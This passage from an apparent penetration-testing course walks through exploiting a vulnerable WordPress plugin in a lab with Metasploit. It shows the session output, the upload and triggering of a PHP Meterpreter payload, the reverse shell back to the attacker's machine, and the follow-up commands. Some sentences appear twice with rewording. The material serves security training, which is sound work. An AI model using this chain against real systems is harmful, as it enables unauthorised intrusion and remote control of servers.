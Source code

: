 ```shell
[*] Sending stage (40004 bytes) to 10.129.12.10
[*] Meterpreter session 3 opened (10.10.16.14:4444 -> 10.129.12.10:45726) at 2025-02-26 15:07:52 -0500

meterpreter >

```

![GIF showcasing the configuration of the expected parameters by the module/exploit.](https://academy.hackthebox.com/storage/modules/296/lin-init-access-msf.gif)

Let’s breakdown what it happening here:

1. The process kicks off with Metasploit starting a reverse TCP handler on our attacking machine (10.10.16.14:4444) to catch the incoming connection.

2. Then the automatic check confirms the plugin’s presence and vulnerability which is always a good sign we’re on the right track. An automatic check confirms the presence of the vulnerable plugin (a good sign that we're on the right track.)

3. Next, it grabs a nonce (46e27af2d1), a security token from the target, which it uses to authenticate the request. Next, it grabs a nonce (security token) from the target, `46e27af2d1`, which it uses to authenticate the request.

4. With that, it uploads a `meterpreter` payload written in PHP to the server’s `wp-content/uploads/hashform/temp/` directory as `pdylenna.php`. In other words, a payload is the piece of code that contains instructions to connect back to our attacking machine.

5. Then, it triggers the payload, executing our code on the target.

6. Finally, the Meterpreter session opens, giving us a full reverse shell from the target (10.129.12.10:45726) back to our attacking machine (10.10.16.14:4444) which means that we are in.


When the meterpreter prompt appears, we know that we've achieved initial access to the target. To confirm, we can run the command `sysinfo`, which returns information about about the current target machine. If you want to see all options that `meterpreter` offers you can use the command `help` .

```shell
meterpreter > sysinfo

Computer    : ubuntu
OS          : Linux ubuntu 5.15.0-135-generic #146-Ubuntu SMP Sat Feb 15 17:06:22 UTC 2025 x86_64
Meterpreter : php/linux

```

From here, we can use the `shell` command to tell meterpreter to execute a basic shell , where we can subsequently use system commands .

```shell
meterpreter > shell

Process 139137 created.
Channel 1 created.

```
